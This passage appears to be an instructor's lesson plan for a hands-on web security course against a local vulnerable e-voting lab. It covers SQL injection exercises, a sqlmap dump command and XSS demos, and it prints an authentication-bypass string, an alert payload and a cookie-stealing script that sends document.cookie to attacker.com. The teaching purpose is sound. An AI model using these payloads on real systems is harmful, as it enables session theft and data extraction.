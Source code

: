 #### Hour 2-3: Hands-on SQL Injection (90 min)
**Exercises:**
1. Authentication bypass (20 min)
2. Union-based extraction (30 min)
3. Blind SQL injection (40 min)

**Walk-through first exercise together:**
```
1. Open login page
2. Try: admin' OR '1'='1
3. Observe response
4. Understand what happened
5. Document finding
```

**Monitor progress:**
- Check which students found FLAG-SQL-001
- Provide hints to struggling students
- Challenge advanced students with blind SQLi

#### Hour 4: SQLMap Tutorial (30 min)
**Demonstrate automated exploitation:**
```bash
# Show SQLMap in action
sqlmap -u "http://localhost:8181/evoting/login1.php" \
  --forms --batch --dump

# Explain the output
# Discuss automated vs manual testing
# Pros and cons of automation
```

---

### Day 3: XSS and Authentication (3 hours)

#### Hour 1: XSS Theory and Practice (60 min)
**Theory (20 min):**
- Types of XSS
- Impact scenarios
- Real-world examples
- Prevention methods

**Practice (40 min):**
- Reflected XSS in login
- Stored XSS in descriptions
- Cookie stealing demo
- XSS filters bypass

**Live Demo:**
```html
<!-- Show basic XSS -->
<script>alert(document.cookie)</script>

<!-- Show cookie stealer -->
<script>
fetch('http://attacker.com/steal?c=' + document.cookie)
</script>

<!-- Show mitigation -->
<?php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ?>
```
